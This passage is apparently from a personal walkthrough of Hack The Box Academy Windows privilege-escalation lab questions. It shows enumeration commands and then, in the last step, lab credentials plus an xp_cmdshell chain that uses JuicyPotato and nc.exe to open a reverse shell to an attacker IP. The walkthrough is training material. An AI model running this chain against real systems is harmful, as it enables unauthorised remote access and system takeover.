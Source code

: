     ```
    PS> query user
    # answer : console
    ```

    ![](file:///C:/Users/Maximilien/Nextcloud3/documents/docusaurus/docs/htb-academy/tier-2/img/wp-05.png?lastModify=1693319911)
8.  What service is listening on 0.0.0.0:21? (two words)

    ```
    PS> netstat -ano
    ```

    ![](file:///C:/Users/Maximilien/Nextcloud3/documents/docusaurus/docs/htb-academy/tier-2/img/wp-06.png?lastModify=1693319911)

    ```
    PS> tasklist /FI 'PID eq 1804'
    ```

    ![](file:///C:/Users/Maximilien/Nextcloud3/documents/docusaurus/docs/htb-academy/tier-2/img/wp-07.png?lastModify=1693319911) The answer is `FileZilla Server`.
9.  Which account has WRITE\_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe? Import the `accesschk.exe` file into working directory.

    ```
    PS> accesschk.exe -l '\pipe\SQLLocal\SQLEXPRESS01'
    ```

    ![](file:///C:/Users/Maximilien/Nextcloud3/documents/docusaurus/docs/htb-academy/tier-2/img/wp-08.png?lastModify=1693319911) The account is `NT SERVICE\MSSQL$SQLEXPRESS01`.
10. Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt. Authenticate to 10.129.43.43 with user "sql\_dev" and password "Str0ng\_P@ssw0rd!".

    ```
    # the attacker starts listening
    nc -lnvp 1234
    ```

    ```
    # the attacker connect its machine to the target sql database
    john@kali$ impacket-mssqlclient -windows-auth 'sql_dev:Str0ng_P@ssw0rd!@10.129.43.43'
    ```

    ```
    # the target sends cmd to the attacker
    SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.134 1234 -e cmd.exe" -t *
    ```
